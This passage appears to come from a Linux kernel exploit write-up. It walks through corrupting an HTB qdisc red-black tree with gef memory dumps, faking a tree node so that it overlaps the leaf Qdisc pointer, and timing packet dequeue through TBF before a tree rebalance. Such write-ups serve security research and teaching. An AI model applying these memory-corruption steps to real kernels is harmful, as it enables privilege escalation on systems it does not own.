 ```c
gef➤  x/4gx 0xfffffe8804a0c828 // F (htb_class + 0x28)
0xfffffe8804a0c828:	0xfffffe8804a5f0a1***  	0x00000c1cc10be110
0xfffffe8804a0c838:	0x000000000013af18	   0x0000000000002200
```

Now by modifying `htb->ceil.rate_bytes_ps`, we can fake a `rb_right` child for F. We refer to this node as Q:

``` 
                   1:2 (HTB)
                   /  \
                  F    2:2
                  \     \
                  Q*     2:5
                  /
                 T
```

We set the address of Q to `&htb->leaf.q - 0x10`, in other words, 0x10 bytes before the leaf Qdisc pointer (T). This way, the qdisc pointer will be considered Q's `rb_left` child:

```c
gef➤  x/4gx 0xfffffe8804a0c828 // F (htb_class + 0x28)
0xfffffe8804a0c828:	0x0000000000002200	0xfffffe8804a0ccf0***
0xfffffe8804a0c838:	0x0000000000000000	0x0000000000002200
```

```c
gef➤  x/4gx 0xfffffe8804a0ccf0 // Q (&htb->leaf.q - 0x10)
0xfffffe8804a0ccf0:	0x0000000000000000	0x0000000000000000
0xfffffe8804a0cd00:	0xfffffe8804a14000	0x0000000000000000
   // This is htb->leaf.q (T) ---^
```

**@step(9): Delayed trigger, increase TBF rate and send packets to all htb classes**

Currently, the TBF rate is too low, preventing the interface from dequeuing packets. By modifying it and setting it to a slightly higher value, packets will be dequeued within a couple of seconds.

This step is necessary because in the next stage, we are going to overwrite `htb->leaf.q` (the HTB class leaf qdisc pointer). Once this pointer is overwritten by F, we can only control the second qword (`htb->ceil.rate_bytes_ps`, which overlaps with `q->dequeue()`).

What we cannot control is the first qword in F, which overlaps with `q->enqueue()`. Therefore, we need packets to be enqueued before the pointer is replaced to avoid an invalid pointer access when `htb->leaf.q->enqueue()` is called.

**@step(10): Trigger tree rebalance by deleting 2:5 and 2:2**

Now, we delete class 2:5 and 2:2 from the tree:

```
                   1:2 (HTB)
                   / \
                  F   2:2
                  \    \
                   Q    x (2:5 deleted)
                  /
                 T
```

